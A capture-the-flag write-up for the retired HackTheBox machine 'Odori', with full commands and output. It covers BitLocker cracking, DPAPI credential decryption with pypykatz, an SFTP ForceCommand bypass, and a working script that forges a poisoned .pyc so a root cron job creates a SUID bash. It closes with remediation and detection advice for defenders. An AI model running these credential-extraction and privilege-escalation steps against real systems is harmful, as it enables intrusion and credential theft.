

> Published after the machine was retired, in line with HackTheBox content rules.
{: .prompt-info }

> This box ships with a file: a password-protected archive `odori.7z` (password `hackthebox`) containing the `file02.vmdk` disk image, provided alongside the machine much like starting credentials on other boxes. The anonymous SMB note simply confirms where it comes from.
{: .prompt-info }

## Machine Overview

| Field | Details |
|-------|---------|
| **Name** | Odori |
| **OS** | Linux |
| **Difficulty** | Medium |
| **Host** | `odori.vl` (ODORI) |
| **Key Skills** | Offline disk forensics, BitLocker cracking, DPAPI credential decryption, SFTP ForceCommand bypass, `.pyc` cache poisoning |

## Attack Path at a Glance

An anonymous Samba share hands out a note pointing to a **BitLocker-encrypted `.vmdk`**. Mounting the disk, cracking BitLocker, and decrypting the machine's **DPAPI** credential blobs recovers the `svc_backup` password. That account is locked to SFTP by `ForceCommand`, but the script it runs (`/opt/restrict`) is **writable by the account itself** — swapping it for `bash` yields an interactive shell and the user flag. Finally, a **root cron** job imports a Python module whose `__pycache__` is world-writable, so a poisoned `.pyc` runs our code as root.



## Reconnaissance

### Port Scan

```console
$ nmap -p- --min-rate=2000 -T4 10.129.74.80
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

$ nmap -p 22,139,445 -sC -sV 10.129.74.80
22/tcp  open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
NetBIOS name: ODORI
```

Just SSH and Samba. With no creds, SMB is the first thing to check.

### SMB — anonymous `backup` share

```console
$ smbclient -N -L //10.129.74.80
    Sharename       Type      Comment
    backup          Disk      Server Backups
    IPC$            IPC       IPC Service (odori server (Samba, Ubuntu))

$ smbclient -N //10.129.74.80/backup -c "ls; get info.txt"
$ cat info.txt
Please download the .vmdk file linked in the machine description.
```

The share is empty apart from a pointer. The real artifact — a VMware disk image — is the one **provided with the machine**: `odori.7z` (password `hackthebox`), containing `file02.vmdk`. So this box starts as an **offline disk-forensics** exercise against supplied material.

## Foothold — BitLocker → DPAPI

### Attach the VMDK

```console
$ 7z x -p"hackthebox" odori.7z          # → file02.vmdk
$ sudo modprobe nbd max_part=16
$ sudo qemu-nbd -r -c /dev/nbd0 file02.vmdk
$ sudo fdisk -l /dev/nbd0
/dev/nbd0p3  19.4G Microsoft basic data    # BitLocker volume (-FVE-FS- signature)
```

### Crack BitLocker

`bitlocker2john` extracts the crackable hashes; we target the **user-password** hash and feed it to John:

```console
$ sudo bitlocker2john -i /dev/nbd0p3 | tee loot/bitlocker.hash
$ grep '^\$bitlocker\$0\$' loot/bitlocker.hash > loot/bl_userpw.hash
$ john --format=bitlocker --wordlist=/usr/share/wordlists/rockyou.txt loot/bl_userpw.hash
$ john --show --format=bitlocker loot/bl_userpw.hash
?:123456789
```

### Unlock and mount with `dislocker`

```console
$ sudo dislocker -r -V /dev/nbd0p3 -u123456789 -- /mnt/dislocker
$ sudo mount -o ro,loop /mnt/dislocker/dislocker-file /mnt/ntfs
$ ls /mnt/ntfs     # Windows, Users, Scripts, Data, config, ...
```

### A backup script points at `svc_backup`

`/mnt/ntfs/Scripts/backup.ps1`:

```powershell
$SFTPServer   = "odori.vl"
$SFTPUser     = "svc_backup"
$SFTPPassword = "***"          # not in cleartext — stored via DPAPI
New-SFTPSession ...
```

The password isn't in the script, so it was saved as a **DPAPI** credential — which we can decrypt offline because we have the whole disk.

### Dump hives and decrypt DPAPI (pypykatz)

First the registry secrets (NTLM hashes + the DPAPI machine/user keys):

```console
$ pypykatz registry --sam loot/hives/SAM --security loot/hives/SECURITY loot/hives/SYSTEM
Administrator:500:...:b56b03d0393ad23e2a893f1c754b0719:::
svc_backup:1000:...:be3071bd4cce75e2bbd3c79c7ec5380e:::
=== LSA DPAPI secret ===
Machine key (hex): b7db177e591e961acac578175c1139626e36b40b
User key (hex):    e72f58588ec7fe6a0733db679d91fee53a3a1896
```

> `secretsdump` failed here due to a version mismatch; `pypykatz` handled the same hives cleanly — a good reminder to keep a second tool ready.
{: .prompt-info }

Then walk the DPAPI chain: prekeys → the credential's masterkey GUID → decrypt the masterkey → decrypt the credential blob:

```console
$ pypykatz dpapi prekey registry loot/hives/SYSTEM loot/hives/SAM loot/hives/SECURITY -o loot/dpapi/prekeys
$ pypykatz dpapi describe credential .../FB28D44A1080F4C10BF3530DD6D7B9E1
  masterkey_guid: bb3025a7-e7d7-405e-bb83-13113f771deb
$ pypykatz dpapi masterkey .../S-1-5-18/User/bb3025a7-... loot/dpapi/prekeys -o loot/dpapi/mkf
$ pypykatz dpapi credential loot/dpapi/mkf .../FB28D44A1080F4C10BF3530DD6D7B9E1
  type     : DOMAIN_PASSWORD
  username : FILE02\svc_backup
  unknown4 : ***************
```

Recovered: **`svc_backup : ***************`**.

## Initial Access — SFTP → ForceCommand Bypass

SSH as `svc_backup` authenticates, but `ForceCommand` prevents a shell. SFTP still works (using `sshpass` + `-oBatchMode=no` so the password prompt isn't suppressed):

```console
$ sshpass -p '***************' sftp -oBatchMode=no svc_backup@10.129.74.80
sftp> pwd        # /home/svc_backup  (user.txt lives here)
```

Reading `/etc/ssh/sshd_config` shows what's enforced, and the script it runs:

```text
Match group svc_backup
    ForceCommand /opt/restrict /home/%u
    AllowTcpForwarding no
```

```bash
# /opt/restrict  —  -rwxrwxr-x svc_backup root   (writable by us!)
#!/bin/bash
/usr/lib/openssh/sftp-server -d $1
```

### Why this is a trivial bypass

`ForceCommand` runs a fixed script instead of the user's shell — but the *script itself* is owned/writable by `svc_backup`. We can overwrite it to launch `bash`, so the next login's forced command **is** a shell:

```console
$ printf '#!/bin/bash\nbash\n' > restrict_new
sftp> put restrict_new /opt/restrict
$ sshpass -p '***************' ssh -tt svc_backup@10.129.74.80
svc_backup@odori:~$ id
uid=1001(svc_backup) gid=1001(svc_backup) groups=1001(svc_backup)
```

### user.txt

```console
svc_backup@odori:~$ cat user.txt
********************************
```

## Privilege Escalation — `.pyc` Cache Poisoning

A root cron job runs `/opt/archiver/app.py` roughly every minute, and the directory layout is the giveaway:

```console
svc_backup@odori:~$ ls -la /opt/archiver/ /opt/archiver/__pycache__/
app.py                        # root, does: from helper import tar_and_move_files
helper.py                     # root
drwxr-xrwx  __pycache__        # OTHERS-WRITABLE
  helper.cpython-310.pyc      # root
```

### Why poisoning the cache works

On `import helper`, Python checks `__pycache__/helper.cpython-310.pyc`. With default **timestamp-based invalidation**, if the `.pyc` header's stored source mtime and size match `helper.py`, Python runs the cached bytecode **without recompiling**. Because `__pycache__` is world-writable, we drop a malicious `.pyc` whose header matches the real source — and root executes our code at import time.

### Exploitation

Grab the source's mtime/size and confirm the existing header uses timestamp invalidation:

```console
$ stat -c "%n mtime=%Y size=%s" /opt/archiver/helper.py
/opt/archiver/helper.py mtime=1737062139 size=412
# existing pyc header: 6f0d0d0a | 00000000 | fb768967 | 9c010000
#   magic 3.10        | flags=0  | mtime     | size=412   (flags=0 → timestamp mode)
```

Build the poisoned `.pyc` **on the target** (so the 3.10 marshal/bytecode matches), with an import side-effect that makes a SUID copy of bash:

```python
import marshal, struct, importlib.util
src = ("import os\n"
       "os.system('cp /bin/bash /tmp/.rootbash && chmod 4755 /tmp/.rootbash')\n"
       "def tar_and_move_files(*a, **k):\n    return None\n")
code = compile(src, '/opt/archiver/helper.py', 'exec')
hdr  = importlib.util.MAGIC_NUMBER + struct.pack('<III', 0, 1737062139, 412)
open('/opt/archiver/__pycache__/helper.cpython-310.pyc', 'wb').write(hdr + marshal.dumps(code))
```

After the next cron tick (~45s), root has imported our bytecode:

```console
$ ls -la /tmp/.rootbash
-rwsr-xr-x 1 root root 1396520 /tmp/.rootbash      # SUID root
$ /tmp/.rootbash -p -c 'id; cat /root/root.txt'
uid=1001(svc_backup) gid=1001(svc_backup) euid=0(root) groups=1001(svc_backup)
********************************
```

### root.txt

```console
********************************
```

Rooted. 🏁

## Defender's View

| # | Finding | Severity | Remediation |
|---|---------|----------|-------------|
| 1 | Anonymous SMB share exposing backup artifacts | Medium | Require authentication; never expose backups anonymously |
| 2 | Weak BitLocker password (`123456789`) | High | Use a strong passphrase or TPM-backed protector |
| 3 | Reusable DPAPI-stored service credential on a shipped disk | High | Don't store service passwords in user DPAPI; use a vault/gMSA-equivalent; wipe disks before distribution |
| 4 | `ForceCommand` script writable by the restricted user | Critical | Root-own the script `chmod 755`; never let the jailed account write its own forced command; use `ChrootDirectory` + internal-sftp |
| 5 | World-writable `__pycache__` on a root cron job | Critical | Remove others-write (`chmod 755`); run cron code from a root-only, non-writable path |
| 6 | Root cron importing a module beside a writable cache | High | Isolate scheduled code; set `PYTHONDONTWRITEBYTECODE`/validate caches |

### MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|--------|-----------|----|
| Collection | Data from Network Shared Drive | T1039 |
| Credential Access | Credentials from Password Stores: DPAPI | T1555 |
| Credential Access | Brute Force: Password Cracking (BitLocker) | T1110.002 |
| Execution | Scheduled Task/Job: Cron | T1053.003 |
| Privilege Escalation | Hijack Execution Flow (poisoned `.pyc`) | T1574 |

### Detection Ideas

- Alert on anonymous SMB reads of backup shares.
- File-integrity monitoring on `/opt/restrict`, `/opt/archiver/__pycache__/`, and new SUID binaries (`/tmp/.rootbash`).
- Flag `.pyc` files whose stored mtime/size were hand-set to match their source.
- Watch for `svc_backup` sessions that spawn `bash` instead of `sftp-server`.

## Lessons Learned

- A **shipped disk image is a credential goldmine** — BitLocker + DPAPI are both breakable offline once you hold the whole volume.
- **`ForceCommand` only restricts as much as its script's permissions allow** — a writable forced command is no restriction at all.
- The **writable-`__pycache__` + root import** primitive shows up again (as on *Browsed*): timestamp-based `.pyc` invalidation makes it a reliable root path without ever touching the `.py`.

## References

- [dislocker](https://github.com/Aorimn/dislocker) — mount BitLocker volumes on Linux
- [John the Ripper — bitlocker2john](https://github.com/openwall/john) — extract BitLocker hashes
- [pypykatz](https://github.com/skelsec/pypykatz) — registry secrets and DPAPI decryption
- [PEP 552 — Deterministic pycs](https://peps.python.org/pep-0552/) — `.pyc` header and invalidation
